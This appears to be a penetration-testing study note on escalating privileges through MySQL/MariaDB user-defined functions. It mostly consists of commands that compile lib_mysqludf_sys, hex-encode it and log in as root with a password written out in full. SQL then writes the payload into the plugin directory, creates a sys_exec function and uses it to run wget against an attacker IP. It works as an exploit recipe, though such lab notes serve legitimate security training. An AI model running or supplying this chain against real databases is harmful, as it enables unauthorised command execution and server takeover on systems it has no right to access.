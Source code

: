 
```
git clone https://github.com/mysqludf/lib_mysqludf_sys.git 
cd lib_mysqludf_sys/ 
rm lib_mysqludf_sys.so 
sed -i "s/m_ctype.h/ctype.h/" lib_mysqludf_sys.c 
sed -i "s/m_string.h/string.h/" lib_mysqludf_sys.c 
sed -i '1 i # define HAVE_DLOPEN' lib_mysqludf_sys.c 
sed -i '1 i # include <stdio.h>' lib_mysqludf_sys.c 

gcc -Wall -I/usr/include/mariadb/server -I/usr/include/mariadb/ -I/usr/include/mariadb/server/private -I. -shared lib_mysqludf_sys.c -o lib_mysqludf_sys.so
```


```
gcc -Wall -I/usr/include/mariadb/server -I/usr/include/mariadb/ -I/usr/include/mariadb/server/private -I. -shared lib_mysqludf_sys.c -o lib_mysqludf_sys.so 
```

```
git clone https://github.com/mysqludf/lib_mysqludf_sys.git
cd lib_mysqludf_sys/
sudo apt update && sudo apt install default-libmysqlclient-dev
rm lib_mysqludf_sys.so
xxd -p lib_mysqludf_sys.so | tr -d '\n' > lib_mysqludf_sys.so.hex
xclip -selection clipboard < lib_mysqludf_sys.so.hex
mysql --host=127.0.0.1 --port=13306 --user=root -pBmDu9xUHKe3fZi3Z7RdMBeb
```

> [!info] 
> Check module for the steps of [compiling mysqludf](https://portal.offensive-security.com/courses/pen-200/books-and-videos/modal/modules/assembling-the-pieces-penetration-test-breakdown/targeting-the-database/attempting-to-exploit-the-database) 

```
set @shell = 0x7f454c4602010100000000000000000003003e000100000000110000000000004000000000000000e03b0000000000000000000040003800090040001c001b000100000004000000000000...00000000000000000000;

select binary @shell into dumpfile '/home/dev/plugin/udf_sys_exec.so';

create function sys_exec returns int soname 'udf_sys_exec.so';

select * from mysql.func where name='sys_exec';

select sys_exec('wget http://10.11.0.4');
```


**Resources**
```
https://medium.com/r3d-buck3t/privilege-escalation-with-mysql-user-defined-functions-996ef7d5ceaf

https://tesserent.com/insights/blog/simple-mysql-backdoor-using-user-defined-functions
```